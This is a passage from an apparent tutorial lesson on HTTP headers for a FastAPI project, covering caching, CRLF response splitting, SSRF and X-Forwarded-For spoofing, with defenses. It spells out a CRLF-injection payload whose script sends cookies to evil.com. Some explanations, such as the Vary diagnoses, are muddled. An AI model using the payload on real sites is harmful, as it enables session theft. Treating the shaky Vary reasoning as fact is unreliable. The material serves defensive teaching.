**Diagnosis.** The `Vary: Authorization` header tells the cache: "key on the `Authorization` request header." But the CDN's cache key implementation hashes the *value* of the `Authorization` header — and since the `Authorization` header is a bearer token, hashing it produces a different cache key for user A and user B (the tokens differ). So the cache should *not* have served user A's response to user B. The bug: the CDN's `Vary` implementation was case-sensitive on the header *name*, and the response set `Vary: authorization` (lowercase) while the CDN expected `Vary: Authorization` (canonical case). The CDN ignored the lowercase `Vary` header, did not key on `Authorization`, and served user A's response to user B.
**Fix.** Three layers. (1) Set `Cache-Control: no-store` on every authenticated response — the cache never stores it, the cache-poisoning cannot happen. (2) When `Vary` is required (for content negotiation, see [[Content-Negotiation|Lesson 5]]), set the header name in canonical case (`Vary: Authorization`, not `Vary: authorization`) and test the cache's behaviour with both cases. (3) Audit the cache's `Vary` implementation — most modern CDNs (Cloudflare, Fastly, AWS CloudFront) implement `Vary` correctly as of 2026, but older versions and self-hosted `Varnish` configurations may not. The grep: `rg "Vary:" boardly/` should show canonical case; `rg "vary:" boardly/` (lowercase) is a smell — every hit is a candidate for the canonical-case refactor.


### Failure 4: The CRLF injection that turned a `Set-Cookie` into a response-splitting attack

**Warning — When this breaks: a user-supplied value in a `Set-Cookie` or `Location` header breaks out into a second response**

**Symptom.** The team's "set a flash message" endpoint accepts a `message` query parameter and sets it as a `Set-Cookie` value: `Set-Cookie: flash=<message>; Path=/; Secure; HttpOnly`. A user requests `?message=hello%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<html><script>document.location='https://evil.com/?c='+document.cookie</script>`. The response the user sees contains two HTTP responses: the original 302, and a second 200 with an attacker-controlled HTML body. The browser renders the second response (the script runs; the user's cookies are exfiltrated). The team's `Set-Cookie` value was URL-decoded but not CRLF-escaped.
**Diagnosis.** HTTP headers are separated by `\r\n` (CRLF). If a header *value* contains `\r\n`, the value is terminated early and what follows is interpreted as a new header (or, if followed by `\r\n\r\n`, as a new response). The `message` parameter `hello\r\nContent-Length: 0\r\n\r\nHTTP/1.1 200 OK\r\nContent-Type: text/html\r\n\r\n<html>...` becomes a `Set-Cookie: flash=hello` followed by `Content-Length: 0` followed by an empty line (response terminator) followed by a forged `HTTP/1.1 200 OK` response. The browser's response-parsing is permissive (some browsers see one response with two `Content-Type` headers; some see two responses) — but the script in the second body runs either way. Modern ASGI servers (Uvicorn via the `h11` HTTP/1.1 parser) reject `\r` or `\n` in header values at write-time with `LocalProtocolError: Illegal header value` — verified by running `h11.Response(status_code=200, headers=[(b"x-test", b"hello\r\nEvil: yes")])` against `h11` 0.16.0, which raises the error — so the response-splitting attack is *caught at the ASGI server boundary* on modern stacks. Older / non-`h11` servers (older Apache `mod_cgi`, older IIS, raw Python `http.server`) did not validate, and the attack succeeded.
**Fix.** Three layers. (1) Never put user input directly into a header value — pass it through a CRLF-stripping function (e.g., `message.replace("\r", "").replace("\n", "")` or `urllib.parse.quote(message, safe="")` to URL-encode it). (2) Modern ASGI servers (Uvicorn via `h11`) raise `LocalProtocolError` on `\r` or `\n` in header values — verified on `h11` 0.16.0 — but raw ASGI middleware that writes directly to `send` (as `SecurityHeadersMiddleware` does) bypasses Starlette's `MutableHeaders`; the validation happens at the ASGI server boundary, not in Starlette. Keep your ASGI server version current; the validation is the second layer. (3) The grep: `rg "Set-Cookie|Location" boardly/ | rg "f\"|f'"` is a smell — every f-string header construction is a CRLF-injection candidate. The OWASP recommendation: assume every header value is an injection vector unless explicitly sanitized.


### Failure 5: The duplicate-header bug that broke the proxy/app header contract

**Warning — When this breaks: the security-headers middleware sets `Content-Security-Policy`, the upstream CDN also sets `Content-Security-Policy`, and the browser sees both**

**Symptom.** The team's `SecurityHeadersMiddleware` sets `Content-Security-Policy: default-src 'self'; frame-ancestors 'none'`. The upstream CDN (Cloudflare) also sets `Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-...' https://cdn.analytics.com` (the CDN's "managed CSP" feature that allows the team's third-party analytics). The browser sees *two* `Content-Security-Policy` response headers. Per the CSP specification (CSP3 §3.2), each policy is enforced independently — a request is blocked if it violates *any* of the policies. The app's CSP does not have a `script-src` directive, so `script-src` falls back to `default-src 'self'`, which does not allow `https://cdn.analytics.com`. The CDN's CSP allows `https://cdn.analytics.com` explicitly. The intersect is "blocked" — the app's CSP blocks the analytics script, the CDN's CSP allows it, and the browser enforces both. The SPA's analytics script breaks, even though the CDN's CSP was specifically configured to allow it.
**Diagnosis.** HTTP allows multiple headers with the same name (RFC 9110 §5.2). The `SecurityHeadersMiddleware` has the `if name not in existing:` guard, so it does *not* duplicate a header the app set. But the *CDN* adds its own `Content-Security-Policy` *after* the app's response passes through it — the CDN's middleware runs on the response as it leaves the CDN, not as it leaves the app. The result is two `Content-Security-Policy` headers on the wire to the browser. The CSP spec says *each enforced independently* (effectively intersect — most restrictive of each directive wins); `Strict-Transport-Security` per RFC 6797 §8.1 says *last-wins*; `Set-Cookie` says *each header is an independent cookie*. The duplicate-header semantics are header-specific, not uniform — the team cannot assume one rule.
**Fix.** Three layers. (1) Decide where each security header is *authoritative* — at the app (set it, and configure the CDN to *not* set it), or at the CDN (let the CDN set it, and configure the app to *not* set it). Mixing both creates the duplicate-header bug. (2) Test the response with `curl -sv` and verify the header count — `curl -sv` shows every header; `Content-Security-Policy` should appear exactly once. (3) The grep: `rg "content-security-policy" boardly/ Caddyfile` should appear in exactly one place per environment — either the app or the CDN config, not both.


## How an Attacker Thinks

A senior security engineer reading your header-handling code looks for three things attackers love: *CRLF injection in header values*, *SSRF via the `Host` header*, and *cache-poisoning via `Vary` abuse*. Each vector below is a real attack that has been disclosed and fixed in the last decade — and each one is the reason the lesson teaches the trust-boundary check on `X-Forwarded-For`, the `Settings.allowed_hosts` allow-list on `Host`, and the `Cache-Control: no-store` rule on authenticated responses.

**Danger — How an attacker thinks: CRLF injection via a user-controlled `Set-Cookie` or `Location` value**

The attacker finds an endpoint that sets a `Set-Cookie` value or `Location` URL from a user-controlled parameter. The "set a flash message" pattern (`?message=hello` → `Set-Cookie: flash=hello`) is the canonical candidate. The attacker sends `?message=hello%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>fetch('https://evil.com/?c='+document.cookie)</script>`. The server's response contains `Set-Cookie: flash=hello\r\nContent-Length: 0\r\n\r\nHTTP/1.1 200 OK\r\nContent-Type: text/html\r\n\r\n<script>...</script>`. If the server's HTTP framework does not reject `\r\n` in header values (older Apache `mod_cgi`, older IIS, raw Python `http.server`), the browser sees two responses: the original 302, and a forged 200 with the attacker's HTML. The script runs in the victim's origin, can read the victim's cookies (if not `HttpOnly`), and can make authenticated requests. The defense: (1) escape every header value through `urllib.parse.quote(value, safe="")` or a CRLF-stripper; (2) modern ASGI servers (Uvicorn via `h11`) raise `LocalProtocolError` on `\r` or `\n` in header values (verified on `h11` 0.16.0) — keep your ASGI server version current; (3) never accept user input directly into a header value. The grep: `rg "Set-Cookie|Location" boardly/ | rg "f\"|f'"` is a smell — every f-string header construction is a CRLF-injection candidate.


**Danger — How an attacker thinks: SSRF via the `Host` header when the app calls itself**

The attacker finds that the app makes an outbound HTTP request to itself — e.g., a `/healthz` endpoint that fetches `http://{request.headers['host']}/internal/health` to verify the internal service is up. The attacker sends `Host: internal-service.local:8080` to the public-facing `app.boardly.dev`. The app constructs `http://internal-service.local:8080/internal/health` from the `Host` header, makes the outbound request, and returns the response (or the status code) to the attacker. The attacker has now reached `internal-service.local:8080` from the public internet — a Server-Side Request Forgery (SSRF). If `internal-service.local` is a metadata service (AWS `169.254.169.254` IMDS, GCP `metadata.google.internal`), the attacker can read cloud credentials; if it's an internal admin panel, the attacker has admin access. The defense: (1) never build outbound URLs from the `Host` header — use `Settings.base_url` from environment variables; (2) maintain an allow-list of hosts the app may call (`Settings.outbound_allow_list`) and reject any outbound URL not in the list; (3) the `TrustedHostMiddleware` blocks `Host: evil.com` at the door — ship it. The grep: `rg "request\.url|request\.headers\[.host.\]|request\.headers\.get\(.host.\)" boardly/ | rg "httpx|requests|aiohttp|urlopen"` is a smell — every hit is a candidate for the `Settings.base_url` refactor.


**Danger — How an attacker thinks: rate-limiter bypass via `X-Forwarded-For` spoofing**

The attacker finds that the app's rate-limiter keys on `client_ip()`, which reads `X-Forwarded-For` *if* the peer is in `TRUSTED_PROXY_NETWORKS`. The attacker's connection to `app.boardly.dev` goes through the load balancer at `10.0.0.4` (a trusted proxy). The attacker's real IP is `203.0.113.7`. The attacker sends `X-Forwarded-For: 198.51.100.1` on their request. The load balancer appends the attacker's real IP: the chain becomes `X-Forwarded-For: 198.51.100.1, 203.0.113.7`. The app's `client_ip()` reads `xff.split(",")[0]` = `198.51.100.1` (the attacker-controlled left-most value). The rate-limiter treats each request as coming from a different IP — the attacker cycles `198.51.100.<n>` through 256 spoofed values, and the per-IP quota of 5 requests/minute is never exceeded. The defense: (1) walk the chain right-to-left, stopping at the first non-trusted-proxy (per Failure 1's fix); (2) for the rate-limiter specifically, key on the *real* client IP (the chain-walked value), not the left-most; (3) if the chain is untrustworthy (e.g., the load balancer does not strip client-set `X-Forwarded-For`), key on the load balancer's appended value (the right-most entry) and treat it as authoritative. The grep: `rg "split\(.*\)\[0\]" boardly/ | rg -i forwarded` is a smell.


**Danger — How an attacker thinks: cache poisoning via `Vary` header abuse**

The attacker finds that the app sets `Vary: X-Forwarded-Host` on `GET /projects` (because the response includes an absolute URL built from `X-Forwarded-Host` — e.g., a "share this project" link in the response body). The cache (a CDN) keys on the `X-Forwarded-Host` header, as `Vary` instructs. The attacker sends `X-Forwarded-Host: evil.com` on a `GET /projects` request with user A's credentials. The response contains `https://evil.com/projects/42` in the body. The CDN caches this response, keyed on the `X-Forwarded-Host: evil.com` value. The next user (user B) who happens to send `X-Forwarded-Host: evil.com` (because an attacker-controlled page they visited set the header on a fetch — which the attacker can do for user B's requests to the attacker's own domain, but not for user B's requests to `app.boardly.dev`) gets user A's cached response — and the response body contains `https://evil.com/projects/42` instead of `https://app.boardly.dev/projects/42`. The attack's reach is limited to the users whose requests happen to include `X-Forwarded-Host: evil.com` (which is rare for legitimate users), but when it lands, the user sees the poisoned response with attacker-controlled URLs in the body. The defense: (1) never put user-controlled values in `Vary` — `Vary` should list request headers that *the app reads to vary the response*, not headers that *the client controls to vary the cache key*; (2) `Cache-Control: no-store` on authenticated responses — the cache never stores, the poisoning cannot happen; (3) audit the CDN's `Vary` implementation — modern CDNs (Cloudflare, Fastly, AWS CloudFront) key on the value, not the presence, but older self-hosted `Varnish` may not. The grep: `rg "Vary:.*X-Forwarded" boardly/` is a smell — `X-Forwarded-*` headers are attacker-controllable and should never be in `Vary`.


## Production Reality

The header-handling code in this lesson is taught as a one-middleware concern; in production it is also a *CDN-configuration* concern, a *security-audit* concern, and a *protocol-version* concern. The four points below are what changes when the lesson's `client_ip()` and `SecurityHeadersMiddleware` meet a CDN-fronted, HTTP/2-or-3, audit-checked production deployment.

**Production reality: CDN-specific headers and which to trust**

Every major CDN sets its own header for "the real client IP" — Cloudflare sets `CF-Connecting-IP`, Akamai sets `True-Client-IP`, AWS CloudFront sets `X-Forwarded-For` (with the original client as the left-most entry, modulo the chain-trust caveat from Failure 1), Azure Front Door sets `X-Azure-Client-IP`, Google Cloud Load Balancing sets `X-Forwarded-For` (with the original client as the left-most entry), and most nginx deployments set `X-Real-IP`. The naming inconsistency is a real production hazard: a team migrating from Cloudflare to AWS CloudFront will see `CF-Connecting-IP` disappear and `X-Forwarded-For` change semantics (Cloudflare's left-most is the original client; AWS's left-most is the original client only if no client-set `X-Forwarded-For` was on the request — and the attacker's pre-pended value is the bug from Failure 1). The rule: (1) trust *one* CDN header, configured per-environment (`Settings.cdn_client_ip_header = "CF-Connecting-IP"` in Cloudflare-fronted prod, `"X-Forwarded-For"` in AWS-fronted prod, `None` in dev); (2) verify the peer is the CDN (mTLS, or the CDN's published IP ranges — Cloudflare publishes `https://www.cloudflare.com/ips`, AWS publishes `https://docs.aws.amazon.com/general/latest/gr/aws-ip-ranges.html`); (3) treat all other "client IP" headers as attacker-controlled — the attacker can set any of them. The grep: `rg "CF-Connecting-IP|True-Client-IP|X-Azure-Client-IP|X-Real-IP" boardly/` should appear in exactly one configuration location per environment, not scattered across endpoints.


**Production reality: the security-headers audit (and the trade-off between an A+ and a functional SPA)**

The Mozilla Observatory (`https://observatory.security.mozilla.org`) and securityheaders.com (`https://securityheaders.com`) are the two public security-headers audits. Both grade A to F based on the presence and correctness of `Strict-Transport-Security`, `Content-Security-Policy`, `X-Content-Type-Options`, `Referrer-Policy`, and `Permissions-Policy`. An A+ requires a strict CSP (`default-src 'self'; script-src 'self' 'nonce-...'; ...`), HSTS with `preload`, and the full set of `X-Frame-Options`-equivalents (or `frame-ancestors` in CSP). The production trade-off: a strict CSP that earns A+ *will break* an SPA with inline scripts, `eval`-based template engines, or third-party analytics — the team must either (a) refactor the SPA to use nonce-based CSP (every `<script>` gets a `nonce="..."` attribute matching a per-response-generated value), or (b) accept a B grade with a permissive CSP (`default-src 'self'; script-src 'self' 'unsafe-inline'`). The senior's audit question: which endpoints earn A+ (the public marketing site, the login page) and which accept B (the SPA dashboard with third-party analytics)? The grade is per-route, not per-site. `Boardly`'s marketing site earns A+; `Boardly`'s dashboard accepts B with nonce-based CSP on its own scripts and `unsafe-inline` on the third-party analytics script — documented in `Settings.csp_per_route`.


**Production reality: the `Vary` + `Access-Control-Allow-Origin` interaction that poisoned CORS responses**

The team's CORS middleware reflects the request's `Origin` into `Access-Control-Allow-Origin` (the canonical CORS misconfiguration, per the lesson's Common Mistakes). The response sets `Vary: Origin` (correct — the response *does* vary by `Origin`). The cache (a CDN) keys on `Origin` (correct — `Vary` says so). User A's request has `Origin: https://alice.boardly.dev`; the response is `Access-Control-Allow-Origin: https://alice.boardly.dev` with `Access-Control-Allow-Credentials: true`; the CDN caches it, keyed on `Origin: https://alice.boardly.dev`. User B's request has `Origin: https://evil.com`; the CDN looks up the cache for `Origin: https://evil.com`, finds no entry, forwards to the origin, the origin returns `Access-Control-Allow-Origin: https://evil.com` (the misconfigured reflection), the CDN caches and serves it. The browser, seeing `Access-Control-Allow-Origin: https://evil.com` matching user B's `Origin`, exposes the response to user B's JavaScript. Wait — that's actually the CORS spec working as designed: the response says "https://evil.com may read this," and the browser allows it. The cache-poisoning-CORS attack requires the cache to *ignore* `Vary: Origin` and serve user A's response (with `Access-Control-Allow-Origin: https://alice.boardly.dev`) to user B (whose `Origin` is `https://evil.com`) — and the browser, seeing `Access-Control-Allow-Origin: https://alice.boardly.dev` (not `https://evil.com`), *rejects* the response. The attack fails on the browser side even if the cache is poisoned. The defense is the spec: `Vary: Origin` is mandatory on CORS-varying responses, and modern CDNs respect it. The bug is in CDNs that *do not* respect `Vary` (older `Varnish` configurations, some self-hosted caches). The grep: `rg "Access-Control-Allow-Origin" boardly/` should always be paired with `Vary: Origin` on the same response.


**Production reality: HTTP/2 and HTTP/3 — lowercase headers, pseudo-headers, and what your middleware must know**

HTTP/2 (RFC 9113, 2022, widely deployed) and HTTP/3 (RFC 9114, 2022, growing deployment) changed three things about headers that your middleware must know. (1) Headers are *lowercase-only* — HTTP/2 rejects headers with uppercase letters in the name (`Content-Type` becomes `content-type`). The pure-ASGI middleware in this lesson already uses lowercase bytes (`b"strict-transport-security"`); the convention is enforced by the protocol. (2) The request line (`GET /projects HTTP/1.1`) is replaced by *pseudo-headers* (`:method`, `:path`, `:scheme`, `:authority`). The `Host` header is replaced by `:authority` — but most servers (including Starlette on Uvicorn) translate `:authority` back to `Host` for backward compatibility with HTTP/1.1 middleware. (3) Header compression (HPACK for HTTP/2 per RFC 7541, QPACK for HTTP/3 per RFC 9204) makes duplicate-header attacks (Failure 5) more dangerous — the compression dictionary references earlier headers by index, and a duplicate header can confuse the decoder. The Starlette `Headers` API normalises names to lowercase; the pure-ASGI middleware's `b"strict-transport-security"` is correct for both HTTP/1.1 and HTTP/2/3. The senior's audit question: does any middleware in the codebase use uppercase header names? The grep: `rg "b\"[A-Z]" boardly/ | rg -i "header"` is a smell — every hit is a candidate for the lowercase refactor. See RFC 9113 §8.1 for the HTTP/2 header rules and RFC 9114 §4.2 for HTTP/3.


## Exercises

**Tip — The 20-minute rule**

Stuck on an exercise for more than 20 minutes? Re-read the relevant section above, then move on. Learning isn't linear.


**Exercise 1 — Echo `User-Agent`.** Modify `/whoami` to parse the `User-Agent` header and return a separate `user_agent` field with the parsed browser, OS, and device. (Hint: there's a `user-agents` package on PyPI, or you can use `ua-parser`.)

**Exercise 2 — Add a custom request header.** Send a custom `X-Boardly-Trace-Id: <uuid>` header on the curl. Modify `/whoami` to surface it as `trace_id` in the response. (Don't generate one in the app — read the client's. The *request-id* middleware generates its own; this exercise is about reading client-supplied headers.)

**Exercise 3 — Trust-boundary test.** Set `TRUSTED_PROXY_NETWORKS = ()` (empty). Make the same request with `X-Forwarded-For: 203.0.113.7`. Confirm `client_ip` returns `127.0.0.1` — the trust boundary held.

**Exercise 4 — CSP report-only.** Change the `content-security-policy` injected header to `content-security-policy-report-only` with a `report-to` directive pointing to a collector endpoint. Implement `POST /csp-report` that just logs the report. Visit `/whoami` with a browser. Confirm no enforcement happens, but reports come in.

**Exercise 5 — Conditional GET.** Add an `ETag` to `/whoami` (hash of the headers). On the next request, send `If-None-Match: "<hash>"`. Modify the endpoint to return `304 Not Modified` if the etags match. (Hint: hash the *sorted* items so order doesn't change the hash.)

**Exercise 6 — Hide `Server`.** Find the line in your ASGI server (Uvicorn) that sets `Server: uvicorn`. Suppress it. (Hint: pass `--header Server:` to Uvicorn, which sends an empty value, or set `Server` to your own string.)

**Exercise 7 — Read `Forwarded` (RFC 7239).** Extend `client_ip()` to also read the `Forwarded` header. If both `X-Forwarded-For` and `Forwarded` are present, prefer `Forwarded`. Parse the `for=...` directive. (Hint: the value can be a quoted string, an IP, an IP with port, or `[2001:db8::1]:8080`.)

## Verification

Run the app:

```bash
uv run uvicorn boardly.main:app --reload
```

In another terminal:

```bash
curl -sv http://127.0.0.1:8000/whoami \
 -H 'Authorization: Bearer fake' \
 -H 'X-Forwarded-For: 203.0.113.7' 2>&1 | head -40
```

You should see:

1. The four security headers in the response: `strict-transport-security`, `x-content-type-options`, `referrer-policy`, `content-security-policy`.
2. `cache-control: no-store` and `vary: Accept` on the JSON response.
3. `client_ip` in the JSON body equal to `203.0.113.7` (because we trust `X-Forwarded-For` from `127.0.0.1`).

If `client_ip` is `127.0.0.1`, your `TRUSTED_PROXY_NETWORKS` doesn't include `127.0.0.0/8`. If the security headers are missing, your middleware wasn't added to the app (check `app.add_middleware(SecurityHeadersMiddleware)` is present and runs).

If the response has *two* `content-type` headers, your middleware is duplicating — check that you're not appending without the `if name not in existing` guard.

## Previously Learned Here

These concepts were taught in earlier lessons. We link back instead of re-explaining:

- **HTTP methods, status codes, headers (sketch)** — [[02-Web-and-HTTP/Methods-Status-Headers-Content-Types]]. The table there is the cheat sheet; this lesson is the deep dive on the headers row.
- **Conditional requests, `ETag`, `If-None-Match`, `Cache-Control`** — [[02-Web-and-HTTP/CORS-Caching-Headers-Conditional-Requests]]. We touched them again here; the canonical deep dive is in Section 02.
- **CORS** — [[02-Web-and-HTTP/CORS-Caching-Headers-Conditional-Requests]]. CORS headers (`Access-Control-Allow-Origin`, etc.) interact with cookies subtly; we cover that in Lesson 2.
- **Middleware, the onion model, `BaseHTTPMiddleware` vs pure ASGI** — [[03-FastAPI-Core/Middleware-and-Request-Order]]. We used the pure-ASGI form here; the trade-off matrix is in that lesson.
- **FastAPI lifespan** — [[03-FastAPI-Core/Application-and-Lifespan]]. The lifespan here is unchanged from Section 03 Lesson 1.
- **`Annotated`** — [[01-Python-Foundations/Type-Hints-and-Annotations]]. We used `Annotated[str | None, Header()]` in exercises; the typing primitive is taught in Phase 1.

## What's Next

In [[HTTP-Cookies-Deep-Dive|Lesson 2 — HTTP Cookies Deep Dive]] we go *byte-by-byte* through the `Set-Cookie` response header. You'll learn:

- The full attribute list: `Name=Value`, `Domain`, `Path`, `Expires`, `Max-Age`, `Secure`, `HttpOnly`, `SameSite`, `Partitioned`.
- Why `HttpOnly` defeats XSS-based cookie theft.
- The `SameSite` matrix (`Strict` / `Lax` / `None`) and why Chrome requires `Secure` for `SameSite=None`.
- The `__Host-` prefix and why it's the safest default.
- How to write a `flash_message` cookie in `Boardly` that survives exactly one redirect.

Cookies are the substrate that sessions, CSRF tokens, and refresh tokens sit on. Get them right.

## Sources

- **RFC 9110 — HTTP Semantics** — <https://www.rfc-editor.org/rfc/rfc9110> — accessed 2026-10-19 — the canonical reference for headers, status codes, methods.
- **RFC 9111 — HTTP Caching** — <https://www.rfc-editor.org/rfc/rfc9111> — accessed 2026-10-19 — `Cache-Control`, `ETag`, `Vary`.
- **RFC 7239 — `Forwarded` HTTP extension** — <https://www.rfc-editor.org/rfc/rfc7239> — accessed 2026-10-19.
- **MDN — HTTP Headers** — <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers> — accessed 2026-10-19 — readable, current, browser-tested reference for every header.
- **OWASP Secure Headers Project** — <https://owasp.org/www-project-secure-headers/> — accessed 2026-10-19 — threat model for each security header.
- **HSTS Preload List** — <https://hstspreload.org> — accessed 2026-10-19 — Chrome's preload list submission and lookup.
- **Starlette `types.py`** — <https://github.com/encode/starlette/blob/master/starlette/types.py> — accessed 2026-10-19 — `Scope`, `Receive`, `Send`, `ASGIApp` aliases.
- **Starlette `requests.py`** — <https://github.com/encode/starlette/blob/master/starlette/requests.py> — accessed 2026-10-19 — `Request.client`, `Request.headers` implementations.
- **FastAPI 0.148.0 release notes** — <https://fastapi.tiangolo.com/release-notes/> — verified 0.148.0 released 2026-10-19.

## What We Learned

Let's recap. In this lesson you:

- **Classified every HTTP header** as request, response, or representation.
- **Read every header that matters in modern APIs** — `Authorization`, `Content-Type`, `Accept`, `Accept-Encoding`, `Accept-Language`, `Cache-Control`, `ETag`, `If-None-Match`, `If-Modified-Since`, `Range`, `Cookie`, `Set-Cookie`, `Location`, `Retry-After`, `Vary`, `X-Forwarded-*`, `Forwarded`, `Strict-Transport-Security`, `Content-Security-Policy`, `X-Content-Type-Options`, `Referrer-Policy`.
- **Understood the trust boundary** on `X-Forwarded-For` and wrote a `client_ip()` that respects it.
- **Wrote a pure-ASGI middleware** (`SecurityHeadersMiddleware`) that injects security headers on every response — without using `BaseHTTPMiddleware`, so streaming still works.
- **Wrote a `GET /whoami` endpoint** that echoes request headers and resolves the client IP safely.
- **Hit and fixed the six classic header bugs** — unconditional `X-Forwarded-For` trust, missing `Vary: Authorization`, premature HSTS `max-age`, `BaseHTTPMiddleware` on streaming, logging `Authorization`, disclosing `Server`.

Here's the mental model to walk away with: *headers are key/value pairs with specific semantics, a specific syntax, and a specific trust model. The browser enforces the security headers; intermediaries (proxies, caches) read the others; your app reads what it needs and writes what it must. Trust nothing the client sends without a peer check; set the security headers on every response; declare `Vary` so caches don't poison each other.*

---

> A note from your teacher
Headers are the most boring part of web development until the day they aren't. The day they aren't is the day a user can't log in, or a cache serves someone else's data, or an attacker bypassed your rate limiter because you trusted `X-Forwarded-For`. The good news: every one of these bugs is preventable with the rules in this lesson. The bad news: you have to apply them, every time, on every endpoint. Build the security-headers middleware once. Use it on every project. See you in Lesson 2 — cookies are the substrate everything else sits on.


---

**Tags:** #http #headers #security #canonical #review
**Previous:** [[00-Backend-Foundations-MOC]]
**Next:** [[HTTP-Cookies-Deep-Dive]] ->
